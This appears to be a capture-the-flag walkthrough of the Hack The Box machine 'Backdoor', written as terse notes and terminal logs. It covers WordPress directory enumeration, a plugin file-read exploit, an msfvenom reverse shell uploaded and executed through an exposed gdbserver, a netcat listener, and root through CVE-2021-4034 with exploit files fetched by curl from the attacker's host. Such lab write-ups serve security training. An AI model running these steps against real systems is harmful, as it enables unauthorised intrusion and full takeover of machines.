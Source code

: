

Steps:
Dirb
http://backdoor.htb/wp-content/plugins/

```
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]                                                                                                                                                                                                  
└─$ dirb http://backdoor.htb                                                                                                                                                                                                                
                                                                                                                                                                                                                                            
-----------------                                                                                                                                                                                                                           
DIRB v2.22                                                                                                                                                                                                                                  
By The Dark Raver                                                                                                                                                                                                                           
-----------------                                                                                                                                                                                                                           
                                                                                                                                                                                                                                            
START_TIME: Fri Feb 25 14:11:16 2022                                                                                                                                                                                                        
URL_BASE: http://backdoor.htb/                                                                                                                                                                                                              
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                                                                                                                        
                                                                                                                                                                                                                                            -----------------                                                                                                                                                                                                                           
                                                                                                                                                                                                                                            
GENERATED WORDS: 4612                                                                                                                                                                                                                       
                                                                                                                                                                                                                                            
---- Scanning URL: http://backdoor.htb/ ----                                                                                                                                                                                                
+ http://backdoor.htb/index.php (CODE:301|SIZE:0)                                                                                                                                                                                           
+ http://backdoor.htb/server-status (CODE:403|SIZE:277)                                                                                                                                                                                     
==> DIRECTORY: http://backdoor.htb/wp-admin/                                                                                                                                                                                                
==> DIRECTORY: http://backdoor.htb/wp-content/                                                                                                                                                                                              
==> DIRECTORY: http://backdoor.htb/wp-includes/                                                                                                                                                                                             
+ http://backdoor.htb/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                                                                         
                                                                                                                                                                                                                                            
---- Entering directory: http://backdoor.htb/wp-admin/ ---- 
+ http://backdoor.htb/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                                                                                                  
==> DIRECTORY: http://backdoor.htb/wp-admin/css/                                                                                                                                                                                            
==> DIRECTORY: http://backdoor.htb/wp-admin/images/                                                                                                                                                                                         
==> DIRECTORY: http://backdoor.htb/wp-admin/includes/                                                                                                                                                                                       
+ http://backdoor.htb/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                                                                                                  
==> DIRECTORY: http://backdoor.htb/wp-admin/js/                                                                                                                                                                                             
==> DIRECTORY: http://backdoor.htb/wp-admin/maint/                                                                                                                                                                                          
==> DIRECTORY: http://backdoor.htb/wp-admin/network/                                                                                                                                                                                        
==> DIRECTORY: http://backdoor.htb/wp-admin/user/                                                                                                                                                                                           
                                                                                                                                                                                                                                            
---- Entering directory: http://backdoor.htb/wp-content/ ----
+ http://backdoor.htb/wp-content/index.php (CODE:200|SIZE:0)                                                                                                                                                                                
==> DIRECTORY: http://backdoor.htb/wp-content/plugins/                                                                                                                                                                                      
==> DIRECTORY: http://backdoor.htb/wp-content/themes/                                                                                                                                                                                       
==> DIRECTORY: http://backdoor.htb/wp-content/upgrade/                                                                                                                                                                                      
==> DIRECTORY: http://backdoor.htb/wp-content/uploads/   
```

https://www.exploit-db.com/exploits/39575

https://github.com/mthbernardes/LFI-Enum

Had to edit it

PID: 809        ../../../../../../../proc/809/cmdline../../../../../../../proc/809/cmdline../../../../../../../proc/809/cmdline/bin/sh while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done <script>win
dow.close()</script>                                                                                                                                                                                                                        
PID: 815        ../../../../../../../proc/815/cmdline../../../../../../../proc/815/cmdline../../../../../../../proc/815/cmdline/bin/sh while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done <script>wind$
w.close()</script>

https://sourceware.org/gdb/onlinedocs/gdb/Server.html
https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
# Set remote debuger target
target extended-remote 10.10.10.11:1337
# Upload elf file
remote put binary.elf binary.elf
# Set remote executable file
set remote exec-file /home/user/binary.elf
# Execute reverse shell executable
run
```

(gdb) target extended-remote 10.10.11.125:1337
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Remote debugging using 10.10.11.125:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put binary.elf binary.elf
Successfully sent file "binary.elf".
(gdb) set remote exec-file /home/user/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Starting program:  
Reading /home/user/binary.elf from remote target...
Reading /home/user/binary.elf from remote target...
Reading symbols from target:/home/user/binary.elf...
(No debugging symbols found in target:/home/user/binary.elf)
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]                                                                                                                                                                                                  
└─$ nc -nvlp 6969                                                                                                                                                                                                                           
listening on [any] 6969 ...                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
ls                                                                                                                                                                                                                                          
whoami                                                                                                                                                                                                                                      
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.125] 38176                                                                                                                                                                               
binary.elf
revshell.elf
user.txt
user
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
ls

/usr/bin/python3 -c 'import pty; pty.spawn("/bin/sh")'


```
root         809  0.0  0.0   2608  1652 ?        Ss   11:47   0:14      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done

╔══════════╣ Sudo version                                                                                                                                                                                                                   
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                                                                  
Sudo version 1.8.31                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
Vulnerable to CVE-2021-4034 
```

```
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                     
curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                       
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   873                                                                                                                                                              
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                      
curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   555  100   555    0     0   2747      0 --:--:-- --:--:-- --:--:--  2747                                                                                                                                                              
$ curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                        
curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   148  100   148    0     0    740      0 --:--:-- --:--:-- --:--:--   740                                                                                                                                                              
$ make                                                                                                                                                                                                                                      
make                                                                                                                                                                                                                                        
/bin/sh: 15: make: not found
$ curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                          
curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                            
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed
100 16176  100 16176    0     0  53562      0 --:--:-- --:--:-- --:--:-- 53562
$ curl http://10.10.14.231:8000/evil.so -o evil.so
curl http://10.10.14.231:8000/evil.so -o evil.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15584  100 15584    0     0  51432      0 --:--:-- --:--:-- --:--:-- 51263
$ ./exploit
./exploit
# whoami
whoami
root

```
